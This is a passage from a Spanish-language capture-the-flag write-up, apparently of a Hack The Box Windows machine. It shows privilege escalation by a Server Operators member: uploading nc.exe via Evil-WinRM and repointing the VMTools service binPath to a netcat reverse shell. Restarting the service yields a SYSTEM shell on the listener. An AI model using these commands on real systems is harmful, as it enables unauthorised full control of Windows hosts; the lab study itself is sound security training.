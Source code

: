 He encontrado que los usuarios del grupo `Server Operators` pueden hacer varias cosas interesantes, entre ellas la de `parar` y `correr` servicios. Esta `información` la he encontrado en [https://learn.microsoft.com/es-es/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators](https://learn.microsoft.com/es-es/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators). El siguiente paso para `escalar privilegios` es `mandarnos` el `netcat.exe` a la máquina víctima, para ello debemos `descargarnos` el binario de `netcat` [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/justice-reaper/Downloads/netcat-1.11/nc.exe
                                        
Info: Uploading /home/justice-reaper/Downloads/netcat-1.11/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 48704 bytes of 48704 bytes copied
                                        
Info: Upload successful!
```

He probado a `crear` un `servicio` y `no` me `deja`, he estado probando varios servicios y al final he dado con el servicio `VMTools` que me ha dejado `modificarlo`

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.16.16 443 -e cmd"
[SC] ChangeServiceConfig SUCCESS
```

Nos ponemos en escucha en `netcat` en el `puerto 443`

```
# nc -nlvp 443 
```

Lo siguiente que hacemos es `parar` el `servicio`

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Ahora al `iniciar` el servicio `VMTools`, nos va ha coger el `binPath` del `nc.exe` y nos va a `mandar` una `cmd` a nuestro equipo

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools
```

Ganamos acceso como `nt authority\system` debido a que el grupo `Server Operators` es un grupo privilegiado

```
# nc -nlvp 443
listening on [any] 443 ...
sconnect to [10.10.16.16] from (UNKNOWN) [10.129.95.241] 51102
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
